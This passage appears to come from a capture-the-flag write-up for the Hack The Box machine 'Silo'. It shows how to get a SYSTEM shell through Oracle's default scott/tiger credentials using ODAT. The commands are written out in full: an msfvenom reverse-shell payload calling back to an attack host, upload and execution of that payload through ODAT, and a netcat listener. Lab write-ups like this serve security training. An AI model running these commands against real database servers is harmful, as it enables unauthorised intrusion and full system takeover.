 If you look at the [Oracle documentation](https://docs.oracle.com/cd/B19306_01/install.102/b15660/rev_precon_db.htm), the username/password that we found are actually one of the default credentials used when setting up Oracle. Now that we have a valid SID and username/password, let’s see if we can get code execution on the box.

## Exploitation <a id="03d0"></a>

ODAT has a _utlfile_ module that allows you to upload, download or delete a file. Since we are trying to get code execution on the box, let’s upload a malicious executable that sends a reverse shell back to our attack machine.

First, generate the executable using msfvenom.

```text
msfvenom -p windows/x64/shell_reverse_tcp  LHOST=10.10.14.7 LPORT=1234 -f exe > shell.exe
```

Next, upload the file using the _utlfile_ module.

```text
python3 odat.py utlfile -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --putFile /temp shell.exe ../../htb/silo/shell.exe
```

We get the following error.

```text
[-] Impossible to put the ../../htb/silo/shell.exe file: `ORA-01031: insufficient privileges`
```

We don’t have sufficient privileges to upload a file. Let’s see if the user was given _sysdba_ privileges by adding the _sysdba_ flag to our command.

```text
python3 odat.py utlfile -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --putFile /temp shell.exe ../../htb/silo/shell.exe --sysdba
```

Now we need to execute the file. We can do that using the _externaltable_ module in ODAT.

First setup a listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 1234
```

Next, execute the file using the following command.

```text
python3 odat.py externaltable -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --exec /temp shell.exe --sysdba
```

We get a shell!

![](https://miro.medium.com/max/834/1*M3cgHNR6Wur9aNX9TBwQjQ.png)

The database must have been running with SYSTEM privileges and so we got a shell as SYSTEM.

Grab the _user.txt_ flag.
